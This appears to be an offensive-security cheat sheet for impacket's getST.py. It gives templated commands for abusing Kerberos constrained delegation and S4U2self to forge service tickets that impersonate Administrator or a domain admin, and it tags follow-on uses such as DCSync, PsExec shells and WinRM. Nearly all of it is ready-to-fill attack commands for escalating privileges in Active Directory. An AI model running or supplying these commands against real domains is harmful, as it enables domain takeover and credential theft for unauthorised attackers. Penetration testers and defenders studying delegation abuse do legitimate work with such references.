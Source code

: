 # getST (imp)

% impacket-kerberos, windows, kerberos, 88, delegation

## Silver ticket (constrained delegation with protocol transition)
#plateform/linux #target/remote  #cat/ATTACK/DELEGATION 
HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
```
getST.py -spn <svc|host>/<target> -impersonate <target_user|Administrator> -dc-ip <dc_ip> '<domain>'/'<user>':'<password>'
```


## Silver ticket (S4U2self)
#plateform/linux #target/remote  #cat/ATTACK/DELEGATION 
HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
using the machine account TGT
```
export KRB5CCNAME=<computer>.ccache
getST.py -self -impersonate "DomainAdmin" -altservice "cifs/<computer_fqdn>" -k -no-pass -dc-ip <dc_ip> "<domain>"/'<computer>$' 
```

## use silver ticket
HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
```
getST.py -spn <svc|host>/<dc2> -impersonate <user_to_impersonate> -dc-ip <dc1_ip> '<domain>/<computer_name>$:<computer_password>'
```
